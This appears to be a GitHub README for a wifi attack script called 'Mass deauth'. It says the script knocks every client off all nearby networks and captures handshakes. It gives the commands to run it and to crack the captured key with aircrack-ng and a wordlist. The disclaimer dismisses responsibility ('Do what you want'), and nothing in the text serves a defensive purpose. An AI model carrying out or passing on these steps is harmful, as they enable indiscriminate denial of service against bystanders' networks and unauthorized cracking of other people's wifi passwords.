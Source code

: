 # Mass deauth
<br>
This script deauth everyone on every wifi around you & grab password hash !
<br><br>

## USAGE

First install the requirements :

```
pip3 install -r requirements.txt

```
Now you can launch the script !

```
python3 heheheha.py {YOUR_WIFI_INTERFACE} {YOUR_MONITOR_WIFI_INTERFACE}
```

or 

```
python3 heheheha.py
```
[use wlan0 on both interface]
<br><br>
exemple:
<br>

```
python3 heheheha.py wlan0 wlan0
```

<br>
The file who contain the Handshake is on the current directory, for crack the key make a aircrack command with your fav wordlist :
<br>

```
aircrack-ng the_output_name.cap -w /home/root/wordlist/your_wordlist.txt
```

<br><br>
**Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.** 

<br><br><br><br>
SOON : Language update for not Frenchies people & for a better english ;)
